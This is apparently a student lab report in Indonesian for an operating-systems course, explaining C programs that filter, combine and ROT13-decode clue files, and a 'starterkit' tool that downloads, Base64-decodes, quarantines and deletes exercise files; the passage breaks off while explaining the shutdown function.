



# LAPRES Praktikum Sistem Operasi Modul 2 - IT14

## Anggota
1. Muhammad Fatihul Qolbi Ash Shiddiqi (5027241023)
2. Mutiara Diva Jaladitha (5027241083)
3. M. Faqih Ridho (5027241123)

## DAFTAR ISI
- [Soal 1](#soal-1)
- [Soal 2](#soal-2)
- [Soal 3](#soal-3)
- [Soal 4](#soal-4)

# soal-1

**Dikerjakan oleh M. Faqih Ridho (5027241123)**

## Desktipsi Soal 

disuruh untuk mencari password dalam suatu file bernama Clue.zip untuk bisa masuk ke website. untuk menjalankannya kita disuruh untuk membuat file action.c yang berisi pemrograman untuk menjalankan perintah soal. soal 1a adalah unzip file Clue.zip dan hapus file Clue.zip . soal 1 B membuat filtering the files untuk memindahkan file-file yang hanya dinamakan dengan 1 huruf dan 1 angka tanpa special character kedalam folder bernama Filtered. 1.C isi folder Filtered yang berupa file .txt digabung ke dalam file COmbine.txt.  1. D. karena isi Combine.txt adalah string berpola kriptografi rot13 maka harus di decode. 1.E harus berhasil masukkan password ke website dari file Decode.txt. Soal 1 A-D proggramnya harus dimasukkan ke dalam file action.c dan dapat dipanggil masing-masing serta tambahan eror handling jika salah argument.

# Action Program
Program **action.c** merupakan solusi yang menggabungkan beberapa mode operasi:
1. **Mode 1 (Tanpa Argumen):** Mengekstrak file *Clues.zip* jika folder *Clues* belum ada.
2. **Mode 2 (Filter):** Memindahkan file .txt yang memiliki nama satu digit atau satu huruf ke folder *Filtered* dan menghapus file .txt lain di folder *Clues*.
3. **Mode 3 (Combine):** Menggabungkan isi file dari folder *Filtered* ke dalam file *Combined.txt* secara bergantian (interleaving) antara file digit dan huruf, lalu menghapus file-file aslinya.
4. **Mode 4 (Decode):** Melakukan ROT13 pada file *Combined.txt* untuk menghasilkan file *Decoded.txt* tanpa menghapus *Combined.txt*.

---

#### A. Downloading the clues

## Mode 1: Ekstraksi Clues.zip (Tanpa Argumen)

### Tujuan Mode 1
- **Cek Folder Clues:** Program mengecek apakah folder *Clues* sudah ada di direktori.
- **Ekstraksi:** Jika folder *Clues* tidak ada, file *Clues.zip* akan diekstrak sehingga menghasilkan folder *Clues* dan isinya.
- **Penghapusan File ZIP:** Setelah ekstraksi berhasil, file *Clues.zip* dihapus agar tidak memenuhi direktori.

### Alur Eksekusi Mode 1
- **Cek Keberadaan Folder:**  
  Menggunakan fungsi `directory_exists("Clues")` untuk mengetahui apakah folder *Clues* sudah ada.
- **Ekstraksi dan Penghapusan:**  
  Jika folder *Clues* belum ada, maka:
  - Menjalankan perintah `unzip Clues.zip` untuk mengekstrak file.
  - Menjalankan perintah `rm Clues.zip` untuk menghapus file ZIP setelah ekstraksi.

### Fungsi Pendukung yang Terkait

- **`directory_exists(const char *path)`**
  - **Kegunaan:**  
    - Mengecek apakah suatu *path* ada.
    - Memastikan bahwa *path* tersebut merupakan sebuah folder.
  - **Implementasi Inti:**
    - Memanfaatkan fungsi `stat()` untuk mengambil informasi status dari *path*.
    - Menggunakan makro `S_ISDIR` untuk memastikan *path* adalah direktori.

- **`system(const char *command)`**
  - **Kegunaan:**  
    - Menjalankan perintah shell langsung dari dalam program C.
  - **Penggunaan di Mode 1:**
    - Menjalankan `unzip Clues.zip` untuk mengekstrak file.
    - Menjalankan `rm Clues.zip` untuk menghapus file ZIP setelah ekstraksi.

### Flow Diagram Sederhana Mode 1
- **Mulai:** Program dijalankan tanpa argumen.
  - **Cek folder *Clues*:**  
    - **Jika ada:**  
      - Cetak pesan “Folder Clues sudah ada. Tidak mengekstrak apa pun.”
    - **Jika tidak ada:**  
      - Ekstrak *Clues.zip*.
      - Hapus *Clues.zip*.
      - Cetak pesan “Berhasil mengekstrak dan menghapus Clues.zip.”

---

## Contoh Kode (Mode 1)

Berikut cuplikan kode dari Mode 1 di file `action.c`:

```
if (argc == 1) {
    if (directory_exists("Clues")) {
        printf("Folder Clues sudah ada. Tidak mengekstrak apa pun.\n");
    } else {
        printf("Folder Clues belum ada. Mengekstrak Clues.zip...\n");
        if (system("unzip Clues.zip") != 0) {
            fprintf(stderr, "Gagal mengekstrak Clues.zip.\n");
            return 1;
        }
        if (system("rm Clues.zip") != 0) {
            fprintf(stderr, "Gagal menghapus Clues.zip.\n");
            return 1;
        }
        printf("Berhasil mengekstrak dan menghapus Clues.zip.\n");
    }
}
```
#### Output
.png)

#### B. Filtering the files
## Mode 2: Filter File dari Folder Clues ke Folder Filtered

### Alur Eksekusi Mode 2
- **Pengecekan Folder Clues:**  
  Pastikan folder *Clues* sudah ada, karena file yang akan difilter berada di sana.
  
- **Pembuatan Folder Filtered:**  
  - Jika folder **Filtered** belum ada, program membuatnya menggunakan perintah `mkdir` dengan izin `0755`.
  
- **Memindahkan File yang Sesuai Kriteria:**  
  - Program memindahkan file-file yang memiliki nama **satu digit** dari folder Clues ke folder Filtered dengan menjalankan perintah:
    ```
    find Clues -type f \( -regex '.*/[0-9]\.txt' \) -exec mv {} Filtered/ \;
    ```
  - Demikian pula, file yang memiliki nama **satu huruf** dipindahkan menggunakan:
    ```
    find Clues -type f \( -regex '.*/[a-zA-Z]\.txt' \) -exec mv {} Filtered/ \;
    ```
  - Perintah `find` di sini:
    - **Mencari** file dengan tipe regular (`-type f`) yang cocok dengan pola *regex* yang ditentukan.
    - **Menjalankan perintah `mv`** untuk memindahkan file yang ditemukan ke folder **Filtered**.

- **Menghapus File yang Tidak Sesuai:**  
  - Semua file .txt di folder *Clues* yang tidak dipindahkan (yakni file yang tidak sesuai dengan kriteria satu digit/huruf) dihapus dengan perintah:
    ```
    find Clues -type f -name '*.txt' -exec rm {} \;
    ```
  - Tujuan penghapusan ini adalah untuk membersihkan file yang dianggap "tidak berguna" dari folder **Clues**.

### Fungsi/Perintah Pendukung dan Kegunaannya
- **`directory_exists(const char *path)`**  
  - **Kegunaan:** Memeriksa apakah folder *Clues* (dan nantinya *Filtered*) sudah ada sebelum melakukan operasi.
  - **Detail:**  
    - Menggunakan fungsi `stat()` dan makro `S_ISDIR` untuk memastikan path merupakan direktori.

- **`mkdir("Filtered", 0755)`**  
  - **Kegunaan:** Membuat folder *Filtered* jika folder tersebut belum ada.
  - **Detail:**  
    - Izin 0755 memastikan pemilik dapat membaca, menulis, dan menjalankan, sementara grup dan lainnya hanya dapat membaca dan menjalankan.

- **Perintah Shell `find` dengan `mv` dan `rm`:**  
  - **`find Clues -type f \( -regex '.*/[0-9]\.txt' \) -exec mv {} Filtered/ \;`**  
    - **Fungsi:** Mencari file dengan nama satu digit dan memindahkannya ke folder *Filtered*.
  - **`find Clues -type f \( -regex '.*/[a-zA-Z]\.txt' \) -exec mv {} Filtered/ \;`**  
    - **Fungsi:** Mencari file dengan nama satu huruf dan memindahkannya ke folder *Filtered*.
  - **`find Clues -type f -name '*.txt' -exec rm {} \;`**  
    - **Fungsi:** Menghapus file .txt lain yang tidak memenuhi kriteria agar folder *Clues* hanya berisi file-file yang tidak diperlukan.

### Flow Diagram Sederhana Mode 2
- **Mulai:** Jalankan program dengan argumen `-m Filter`
  - **Cek Folder Clues:** Pastikan folder *Clues* ada.
  - **Buat Folder Filtered:** Jika belum ada, buat folder *Filtered*.
  - **Pindahkan File Sesuai Kriteria:**  
    - Pindahkan file yang namanya satu digit ke folder *Filtered*.
    - Pindahkan file yang namanya satu huruf ke folder *Filtered*.
  - **Hapus File Lain:** Hapus semua file .txt lain di folder *Clues*.
  - **Selesai:** Cetak pesan "Proses filter selesai."

### Cuplikan Kode Mode 2 dari `action.c`

```
else if (argc == 3 && strcmp(argv[1], "-m") == 0 && strcmp(argv[2], "Filter") == 0) {
    if (!directory_exists("Clues")) {
        printf("Folder Clues tidak ditemukan. Tidak ada yang difilter.\n");
        return 0;
    }
    // Buat folder Filtered jika belum ada
    if (!directory_exists("Filtered")) {
        printf("Membuat folder Filtered...\n");
        if (mkdir("Filtered", 0755) != 0) {
            perror("Gagal membuat folder Filtered");
            return 1;
        }
    }
    // Pindahkan file .txt dengan nama 1 digit ke folder Filtered
    printf("Memindahkan file .txt yang namanya 1 digit ke folder Filtered...\n");
    if (system("find Clues -type f \\( -regex '.*/[0-9]\\.txt' \\) -exec mv {} Filtered/ \\;") != 0) {
        fprintf(stderr, "Gagal memindahkan file digit.\n");
    }
    // Pindahkan file .txt dengan nama 1 huruf ke folder Filtered
    printf("Memindahkan file .txt yang namanya 1 huruf ke folder Filtered...\n");
    if (system("find Clues -type f \\( -regex '.*/[a-zA-Z]\\.txt' \\) -exec mv {} Filtered/ \\;") != 0) {
        fprintf(stderr, "Gagal memindahkan file huruf.\n");
    }
    // Hapus file .txt lainnya yang tidak memenuhi kriteria
    printf("Menghapus semua file .txt lain yang tidak memenuhi kriteria...\n");
    if (system("find Clues -type f -name '*.txt' -exec rm {} \\;") != 0) {
        fprintf(stderr, "Gagal menghapus sisa file .txt.\n");
    }
    printf("Proses filter selesai.\n");
}
```
#### Output
.png)

#### C. Combine the files content
## Mode 3: Combine File dari Folder Filtered ke dalam Combined.txt

### Alur Eksekusi Mode 3
- **Pengecekan Folder Filtered:**  
  Program memastikan folder **Filtered** ada sebelum memulai proses penggabungan.

- **Pengambilan Daftar File:**  
  Program membuka folder **Filtered** dan membaca setiap entri.  
  - File dengan format nama 1 karakter (misalnya "3.txt", "b.txt") diidentifikasi dan dipisahkan dalam dua array:
    - Satu array untuk file yang namanya **digit**.
    - Satu array untuk file yang namanya **huruf**.

- **Sorting File:**  
  - **File Digit:** Diurutkan berdasarkan nilai angka (menggunakan fungsi **`compare_digit`**).
  - **File Huruf:** Diurutkan berdasarkan urutan ASCII (menggunakan fungsi **`compare_letter`**).

- **Penggabungan Isi File:**  
  Isi file-file yang telah diurutkan kemudian digabungkan ke **Combined.txt** secara interleaved (bergantian):
  - Pertama, file digit pertama dibaca dan isinya ditulis ke Combined.txt.
  - Kemudian, file huruf pertama dibaca dan ditulis.
  - Proses ini terus berlanjut hingga semua file terproses.

- **Penghapusan File Asli:**  
  Setelah isinya dipindahkan ke **Combined.txt**, file-file dari folder **Filtered** dihapus menggunakan fungsi `remove()`.

---

### Fungsi dan Perintah Pendukung yang Digunakan

- **`directory_exists(const char *path)`**
  - **Kegunaan:** Memastikan folder **Filtered** ada.
  - **Detail:** Mengecek dengan fungsi `stat` dan makro `S_ISDIR`.

- **Fungsi Comparator:**
  - **`compare_digit(const void *a, const void *b)`**
    - **Kegunaan:** Mengurutkan file-file yang namanya 1 digit dengan membandingkan karakter pertama dari nama file.
  - **`compare_letter(const void *a, const void *b)`**
    - **Kegunaan:** Mengurutkan file-file yang namanya 1 huruf secara ASCII.

- **Fungsi `qsort()`**
  - **Kegunaan:** Mengurutkan array nama file (baik untuk digit maupun huruf) sesuai dengan comparator yang telah didefinisikan.

- **Fungsi Standard I/O (`fopen`, `fgets`, `fputs`, `remove`)**
  - **Kegunaan:**  
    - **`fopen()`** digunakan untuk membuka file di folder **Filtered** dan file **Combined.txt**.
    - **`fgets()`** dan **`fputs()`** digunakan untuk membaca dan menulis isi file.
    - **`remove()`** digunakan untuk menghapus file asli setelah proses penggabungan.


### Flow Diagram Sederhana Mode 3
1. **Mulai:** Jalankan program dengan argumen `-m Combine`.
2. **Baca Folder Filtered:**
   - Ambil semua file yang sesuai (format `x.txt` dengan panjang 5 karakter).
   - Pisahkan menjadi dua kategori: file digit dan file huruf.
3. **Sorting:**
   - Urutkan file-digit menggunakan `compare_digit`.
   - Urutkan file-huruf menggunakan `compare_letter`.
4. **Interleaving:**
   - Baca file dari array digit dan huruf secara bergantian.
   - Tulis isinya ke **Combined.txt**.
5. **Hapus File Asli:**
   - Setelah ditulis, hapus file dari **Filtered**.
6. **Selesai:** Tampilkan pesan bahwa proses combine selesai.

---

### Cuplikan Kode Mode 3 dari `action.c`

```c
else if (argc == 3 && strcmp(argv[1], "-m") == 0 && strcmp(argv[2], "Combine") == 0) {
    if (!directory_exists("Filtered")) {
        printf("Folder Filtered tidak ditemukan. Tidak bisa melakukan Combine.\n");
        return 0;
    }
    DIR *dir;
    struct dirent *entry;
    dir = opendir("Filtered");
    if (!dir) {
        perror("Gagal membuka folder Filtered");
        return 1;
    }
    // Siapkan array untuk nama file
    char *digitFiles[100];
    char *letterFiles[100];
    int digitCount = 0, letterCount = 0;
    while ((entry = readdir(dir)) != NULL) {
        if (strcmp(entry->d_name, ".") == 0 || strcmp(entry->d_name, "..") == 0)
            continue;
        size_t len = strlen(entry->d_name);
        if (len == 5 && strcmp(entry->d_name + len - 4, ".txt") == 0) {
            char first = entry->d_name[0];
            if (isdigit((unsigned char)first)) {
                digitFiles[digitCount] = (char *)malloc(len + 1);
                strcpy(digitFiles[digitCount], entry->d_name);
                digitCount++;
            } else if (isalpha((unsigned char)first)) {
                letterFiles[letterCount] = (char *)malloc(len + 1);
                strcpy(letterFiles[letterCount], entry->d_name);
                letterCount++;
            }
        }
    }
    closedir(dir);
    qsort(digitFiles, digitCount, sizeof(char *), compare_digit);
    qsort(letterFiles, letterCount, sizeof(char *), compare_letter);
    FILE *combined = fopen("Combined.txt", "w");
    if (!combined) {
        perror("Gagal membuat/menulis Combined.txt");
        return 1;
    }
    int i = 0, j = 0;
    while (i < digitCount || j < letterCount) {
        if (i < digitCount) {
            char path[256];
            snprintf(path, sizeof(path), "Filtered/%s", digitFiles[i]);
            FILE *f = fopen(path, "r");
            if (f) {
                char buffer[1024];
                while (fgets(buffer, sizeof(buffer), f))
                    fputs(buffer, combined);
                fclose(f);
            }
            remove(path);
            i++;
        }
        if (j < letterCount) {
            char path[256];
            snprintf(path, sizeof(path), "Filtered/%s", letterFiles[j]);
            FILE *f = fopen(path, "r");
            if (f) {
                char buffer[1024];
                while (fgets(buffer, sizeof(buffer), f))
                    fputs(buffer, combined);
                fclose(f);
            }
            remove(path);
            j++;
        }
    }
    fclose(combined);
    for (int idx = 0; idx < digitCount; idx++) {
        free(digitFiles[idx]);
    }
    for (int idx = 0; idx < letterCount; idx++) {
        free(letterFiles[idx]);
    }
    printf("Proses combine selesai. Hasil ada di Combined.txt\n");
}
```
#### Output
.png)

#### D. Decode the file

## Mode 4: Decode (ROT13 pada Combined.txt)

### Alur Eksekusi Mode 4
- Program membuka file **Combined.txt** dalam mode baca.
- Jika file **Combined.txt** tidak ditemukan, pesan akan ditampilkan dan proses berhenti.
- Program membuka file **Decoded.txt** dalam mode tulis.
- Isi **Combined.txt** diproses karakter demi karakter menggunakan algoritma ROT13:
  - Untuk setiap karakter, fungsi `rot13_char()` mengubah huruf (baik kecil maupun besar) dengan menambahkan 13 posisi dalam alfabet.
  - Karakter yang bukan huruf dikopi tanpa perubahan.
- Hasil proses ROT13 dituliskan ke **Decoded.txt**.
- Setelah seluruh isi file telah diproses, kedua file ditutup.
- File **Combined.txt** dipertahankan (tidak dihapus) untuk referensi.

### Fungsi dan Perintah Pendukung

- **`process_rot13(FILE *in, FILE *out)`**
  - **Kegunaan:**  
    - Membaca file input karakter demi karakter dan menuliskan hasil transformasi ROT13 ke file output.
  - **Detail Implementasi:**  
    - Menggunakan `fgetc()` untuk mendapatkan karakter dari file input.
    - Setiap karakter diproses melalui fungsi `rot13_char()`.
    - Hasilnya ditulis ke file output menggunakan `fputc()`.
  
- **`rot13_char(char c)`**
  - **Kegunaan:**  
    - Menerapkan transformasi ROT13 pada karakter input.
  - **Detail Implementasi:**  
    - Jika karakter adalah huruf kecil (`a-z`), dikonversi dengan rumus:  
      `('a' + ((c - 'a' + 13) % 26))`
    - Jika karakter adalah huruf besar (`A-Z`), dikonversi dengan rumus:  
      `('A' + ((c - 'A' + 13) % 26))`
    - Karakter non-huruf dikembalikan tanpa perubahan.

### Cuplikan Kode Mode 4 dari `action.c`

```
else if (argc == 3 && strcmp(argv[1], "-m") == 0 && strcmp(argv[2], "Decode") == 0) {
    FILE *combined = fopen("Combined.txt", "r");
    if (!combined) {
        printf("File Combined.txt tidak ditemukan. Tidak ada yang didecode.\n");
        return 0;
    }
    FILE *decoded = fopen("Decoded.txt", "w");
    if (!decoded) {
        perror("Gagal membuat/menulis Decoded.txt");
        fclose(combined);
        return 1;
    }
    printf("Melakukan decode ROT13 dari Combined.txt...\n");
    process_rot13(combined, decoded);
    fclose(combined);
    fclose(decoded);
    printf("Decoded.txt berhasil dibuat. File Combined.txt tetap dipertahankan.\n");
}
```

#### Output


#### E. Filtering the files
masukkan password ke website dengan password yaitu BewareOfAmpy

#### Output


# soal-2
**Dikerjakan Oleh Muhammad Fatihul Qolbi Ash Shiddiqi (5027241023)**

## Deskripsi Soal 

Komputer Kanade terkena malware yang membuat komputer menjadi lebih lambat, sehingga ia harus membuat prorgram dengan format :

- **./starterkit --decrypt**: Mendecrypt nama dari file yang diencrypt menggunakan algoritma Base64.
- **./starterkit --quarantine**: Memindahkan file dari starter_kit ke quarantine untuk di karantina sementara (Waspada jika virus / malware berbahaya)   
- **./starterkit --return**: Mengembalikan file dari yang telah di karantina dalam directory quarantine ke directory starter_kit (malware tidak berbahaya) 
- **./starterkit --eradicate**: Menghapus seluruh file yang ada di dalam directory karantina (Karena dianggap berbahaya)
- **./starterkit --shutdown**:  Mematikan program decrypt miliknya dapat secara aman berdasarkan PID dari proses program tersebut.
 
#### A. Setiap Program yang dia buat harus bisa memdownload dan unzip sebuah starter kit berisi file - file acak (sudah termasuk virus) serta menghapus file zip asli setelah melakukan unzip.

```C
void download_and_extract() {
    pid_t pid;

    if ((pid = fork()) == 0) {
        char *argv[] = {"wget", "--no-check-certificate",
                        "https://docs.google.com/uc?export=download&id=" FILE_ID,
                        "-O", ZIP_FILE, NULL};
        execvp("wget", argv);
        exit(1);
    }
    waitpid(pid, NULL, 0);

    if ((pid = fork()) == 0) {
        char *argv[] = {"unzip", "-o", ZIP_FILE, "-d", STARTERKIT_DIR, NULL};
        execvp("unzip", argv);
        exit(1);
    }
    waitpid(pid, NULL, 0);

    if ((pid = fork()) == 0) {
        char *argv[] = {"rm", "-f", ZIP_FILE, NULL};
        execvp("rm", argv);
        exit(1);
    }
    waitpid(pid, NULL, 0);

    log_activity("info", "Downloaded and extracted starterkit.");
}
```

1. Download File Zip
   
```C
if ((pid = fork()) == 0) {
    char *argv[] = {"wget", "--no-check-certificate",
                    "https://docs.google.com/uc?export=download&id=" FILE_ID,
                    "-O", ZIP_FILE, NULL};
    execvp("wget", argv);
    exit(1);
}
waitpid(pid, NULL, 0);
```

- `pid` → Mendeklarasikan variabel pid untuk menyimpan hasil dari proses fork().
- `fork()` → Membuat proses anak.
- Jika proses anak `(pid == 0)` , maka menjalankan perintah `wget` untuk mengunduh file dari Google Drive ke dalam file `ZIP_FILE`.
- `--no-check-certificate` → Digunakan untuk menghindari error SSL.
- `-O ZIP_FILE ` → Menyimpan file hasil unduhan dengan nama tertentu.
- `execvp()` → Menggantikan proses anak dengan wget.
- Jika `execvp()` gagal, maka `exit(1)` akan menghentikan proses dengan kode error.
- `waitpid()` → Memastikan proses induk menunggu proses download selesai sebelum lanjut ke tahap berikutnya.

2. Proses Ekstraksi ZIP

```C
if ((pid = fork()) == 0) {
    char *argv[] = {"unzip", "-o", ZIP_FILE, "-d", STARTERKIT_DIR, NULL};
    execvp("unzip", argv);
    exit(1);
}
waitpid(pid, NULL, 0);
```

- Proses anak kedua dibentuk dengan `fork()`.
- Eksekusi perintah unzip untuk mengekstrak isi file ZIP ke direktori `STARTERKIT_DIR`.
- `-o `digunakan untuk overwrite file jika sudah ada sebelumnya.
- `-d` STARTERKIT_DIR menentukan folder tujuan ekstraksi.
- Sama seperti sebelumnya, `execvp()` digunakan untuk mengeksekusi unzip, dan `waitpid()` menunggu proses ini selesai.

3. Menghapus file Zip

```C
if ((pid = fork()) == 0) {
    char *argv[] = {"rm", "-f", ZIP_FILE, NULL};
    execvp("rm", argv);
    exit(1);
}
waitpid(pid, NULL, 0);
```

- Membuat proses anak ketiga dengan `fork()`.
- Menjalankan perintah `rm -f` ZIP_FILE untuk menghapus file ZIP setelah selesai diekstrak.
- `-f` (force) digunakan agar file dihapus tanpa konfirmasi dan tanpa error jika file tidak ada.
- `waitpid()` digunakan untuk menunggu proses ini selesai sebelum melanjutkan ke tahap berikutnya.

##### Output 


#### B. Mendecrypt nama dari file yang diencrypt menggunakan algoritma Base64.

```C
char *base64_decode(const char *input) {
    BIO *bio, *b64;
    int input_len = strlen(input);

    int max_decoded_len = (input_len * 3) / 4;
    char *temp = malloc(max_decoded_len + 1);
    memset(temp, 0, max_decoded_len + 1);

    bio = BIO_new_mem_buf(input, -1);
    b64 = BIO_new(BIO_f_base64());
    bio = BIO_push(b64, bio);
    BIO_set_flags(bio, BIO_FLAGS_BASE64_NO_NL);

    int decoded_len = BIO_read(bio, temp, max_decoded_len);
    temp[decoded_len] = '\0';

    BIO_free_all(bio);

    char *cleaned = malloc(decoded_len + 1);
    int j = 0;
    for (int i = 0; i < decoded_len; i++) {
        if (temp[i] != '\n' && temp[i] != '\r') {
            cleaned[j++] = temp[i];
        }
    }
    cleaned[j] = '\0';

    free(temp);
    return cleaned;
}

```

- `BIO dan BIO_f_base64()` → Digunakan dari library OpenSSL untuk proses decoding Base64.
- `BIO_new_mem_buf()` → Membuat stream memori dari input string Base64.
- `BIO_push()` → Menggabungkan stream decoding Base64 ke buffer input.
- `BIO_set_flags(...NO_NL)` → Menonaktifkan pengolahan newline, agar decoding berjalan mulus.
- `BIO_read()` → Melakukan proses decoding dari Base64 ke buffer temp.
- `Karakter '\n' dan '\r'` dibersihkan dari hasil decode agar nama file bersih.
- Fungsi akan mengembalikan string hasil decode yang telah dibersihkan dari karakter newline.

```C
void decrypt_filenames() {
    DIR *dir = opendir(QUARANTINE_DIR);
    if (!dir) return;

    struct dirent *entry;
    char oldpath[512], newpath[512];

    while ((entry = readdir(dir)) != NULL) {
        if (entry->d_name[0] == '.') continue;

        snprintf(oldpath, sizeof(oldpath), "%s/%s", QUARANTINE_DIR, entry->d_name);
        char *decoded = base64_decode(entry->d_name);

        if (decoded && strlen(decoded) > 0) {
            snprintf(newpath, sizeof(newpath), "%s/%s", QUARANTINE_DIR, decoded);
            if (rename(oldpath, newpath) == 0) log_activity("decode", decoded);
            free(decoded);
        }
    }

    closedir(dir);
}
```

- `opendir()` → Membuka direktori QUARANTINE_DIR.
- `readdir()` → Membaca isi direktori satu per satu.
- `if (entry->d_name[0] == '.') continue;` → Menghindari file khusus seperti . dan ...
- `base64_decode()` → Mendekripsi nama file dari format Base64 ke nama aslinya.
- `rename()` → Mengubah nama file dari nama terenkripsi menjadi nama asli.
- Jika rename berhasil, akan dicatat ke dalam log menggunakan `log_activity("decode", ...)`.
- `free(decoded)` → Membersihkan memori hasil decoding agar tidak terjadi memory leak.

##### Output 


#### C. Menambahkan fitur untuk memindahkan file yang ada pada directory starter kit ke directory karantina, dan begitu juga sebaliknya.

1. Fungsi quarantine_files

```C
void quarantine_files() {
    DIR *dir = opendir(STARTERKIT_DIR);
    if (!dir) return;

    struct dirent *entry;
    char from[512], to[512];

    while ((entry = readdir(dir)) != NULL) {
        if (entry->d_name[0] == '.') continue;
        snprintf(from, sizeof(from), "%s/%s", STARTERKIT_DIR, entry->d_name);
        snprintf(to, sizeof(to), "%s/%s", QUARANTINE_DIR, entry->d_name);

        if (move_file(from, to) == 0)
            log_activity("quarantine", entry->d_name);
    }

    closedir(dir);
}
```

- `opendir()` → Membuka folder starter_kit/.
- `readdir()` → Membaca setiap file dalam folder tersebut.
- File yang tersembunyi atau bernama ./.. akan dilewati.
- Menggunakan `snprintf()` untuk menyusun path asal (from) dan path tujuan (to).
- `move_file()` → Fungsi buatan untuk memindahkan file dari starter_kit/ ke quarantine/.
- Jika pemindahan berhasil, maka log akan dicatat dengan perintah `log_activity("quarantine", ...)`.

2. Fungsi clean_starterkit_dir

Fungsi ini digunakan untuk menghapus semua file di dalam folder starter_kit/ sebelum proses restore dari quarantine/.

```C
void clean_starterkit_dir() {
    DIR *dir = opendir(STARTERKIT_DIR);
    if (!dir) return;

    struct dirent *entry;
    char path[512];

    while ((entry = readdir(dir)) != NULL) {
        if (entry->d_name[0] == '.') continue;
        snprintf(path, sizeof(path), "%s/%s", STARTERKIT_DIR, entry->d_name);
        remove(path);
    }

    closedir(dir);
}
```

- `opendir()` membuka direktori.
- File tersembunyi tetap di-skip.
- `remove()` digunakan untuk menghapus setiap file satu per satu.

Fungsi ini berguna ketika ingin memastikan isi `starter_kit/` bersih sebelum file dipulihkan dari quarantine/.

3. Fungsi return_files

```C
void return_files() {
    clean_starterkit_dir(); // Bersihkan starter_kit terlebih dahulu

    DIR *dir = opendir(QUARANTINE_DIR);
    if (!dir) return;

    struct dirent *entry;
    char from[512], to[512];

    while ((entry = readdir(dir)) != NULL) {
        if (entry->d_name[0] == '.') continue;
        snprintf(from, sizeof(from), "%s/%s", QUARANTINE_DIR, entry->d_name);
        snprintf(to, sizeof(to), "%s/%s", STARTERKIT_DIR, entry->d_name);

        if (move_file(from, to) == 0)
            log_activity("return", entry->d_name);
    }

    closedir(dir);
}
```

- Sebelum melakukan pengembalian file, folder `starter_kit/` dibersihkan terlebih dahulu menggunakan `clean_starterkit_dir()`.
- Setelah bersih, setiap file di `quarantine/` akan dibaca, lalu dipindahkan ke `starter_kit/`.
- Jika pemindahan berhasil, maka akan dicatat di log dengan kategori "return".

##### Output 

###### Output quarantine 


###### Output quarantine 2 ketika sudah diencrypt 


###### Output Return


#### D. Menambahkan fitur untuk menghapus seluruh file yang ada di dalam directory karantina.

```C
void eradicate_quarantine() {
    DIR *dir = opendir(QUARANTINE_DIR);
    if (!dir) return;

    struct dirent *entry;
    char path[512];

    while ((entry = readdir(dir)) != NULL) {
        if (entry->d_name[0] == '.') continue;
        snprintf(path, sizeof(path), "%s/%s", QUARANTINE_DIR, entry->d_name);

        if (remove(path) == 0)
            log_activity("eradicate", entry->d_name);
    }

    closedir(dir);
}

```

- `DIR *dir = opendir(QUARANTINE_DIR);` → Membuka folder quarantine/ , Jika folder tidak bisa dibuka (misalnya tidak ada atau tidak punya izin), fungsi akan return.
- `struct dirent *entry;` → Struct dirent digunakan untuk membaca isi direktori satu per satu.
- `while ((entry = readdir(dir)) != NULL)`  → Melakukan iterasi untuk membaca semua entri (file) di dalam quarantine/.
- `if (entry->d_name[0] == '.') continue;`  → Melewati file tersembunyi 
- `snprintf(path, sizeof(path), "%s/%s", QUARANTINE_DIR, entry->d_name);`  → Menyusun path lengkap file dalam direktori quarantine/.
- `if (remove(path) == 0)`  → Menghapus file menggunakan remove(). Jika berhasil (mengembalikan 0), maka log dicatat.
- `log_activity("eradicate", entry->d_name);`  → Mencatat file yang berhasil dihapus ke dalam log dengan kategori "eradicate".
- `closedir(dir);`  → Menutup direktori setelah selesai dibaca.

##### Output


#### E. Program decrypt dimatikan secara aman berdasarkan PID dari proses program tersebut.

```C
void shutdown_daemon() {
    FILE *fp = popen("ps aux | grep './starterkit --decrypt' | grep -v grep", "r");
    if (!fp) return;

    char buf[512];
    int pid, count = 0;

    while (fgets(buf, sizeof(buf), fp)) {
        if (sscanf(buf, "%*s %d", &pid) == 1) {
            if (kill(pid, SIGTERM) == 0) {
                char pid_str[16];
                snprintf(pid_str, sizeof(pid_str), "%d", pid);
                log_activity("shutdown", pid_str);
                count++;
            }
        }
    }

    pclose(fp);
    if (count == 0)
        printf("No active decryption processes found.\n");
    else
        printf("Shutdown %d daemon process(es).\n", count);
}
```

- `FILE *fp = popen("ps aux | grep './starterkit --decrypt' | grep -v grep", "r");` → Menjalankan perintah shell untuk mencari proses yang menjalankan ./starterkit --decrypt. Hasil dari perintah ini akan dibaca sebagai stream fp.
- `if (!fp) return;` → Jika perintah gagal dijalankan atau tidak bisa membuka pipe, fungsi akan keluar.
- `char buf[512];` → Buffer untuk menyimpan setiap baris hasil output dari popen().
- `int pid, count = 0;` → pid menyimpan Process ID dari hasil parsing, dan count menghitung jumlah proses yang berhasil dimatikan.
- `while (fgets(buf, sizeof(buf), fp))` → Membaca baris per baris output dari proses pencarian menggunakan fgets.
- `if (sscanf(buf, "%*s %d", &pid) == 1)` → Mengambil PID dari baris hasil output, dengan melewati field pertama (%*s) dan mengambil field kedua sebagai PID.
